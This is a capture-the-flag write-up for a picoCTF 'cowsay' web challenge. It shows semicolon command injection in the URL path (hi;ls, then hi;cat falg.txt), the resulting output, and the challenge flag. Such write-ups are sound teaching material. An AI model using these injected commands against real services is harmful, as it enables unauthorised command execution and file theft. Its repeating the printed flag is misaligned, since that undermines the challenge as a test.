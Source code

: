 # Command Injection Challenge Writeup

## Initial Analysis

Upon examining the `index.js` file, it appears that the input message is relayed to the console. Recognizing this behavior, an opportunity to exploit the website with a semicolon (`;`) arises, as it is a command separator operator.

## Exploiting the Vulnerability

### List Files (ls)

Using the following link with a semicolon injection:

'''link
https://caas.mars.picoctf.net/cowsay/hi;ls
'''


The output reveals the directory contents, indicating the presence of a file named `falg.txt`.

```plaintext
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Read Flag (cat)
Using the following link with a semicolon injection:

```link
https://caas.mars.picoctf.net/cowsay/hi;cat falg.txt
```

The output displays the contents of falg.txt, revealing the flag.

```plaintext ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

Flag
The flag is extracted from the contents of falg.txt:

'picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}'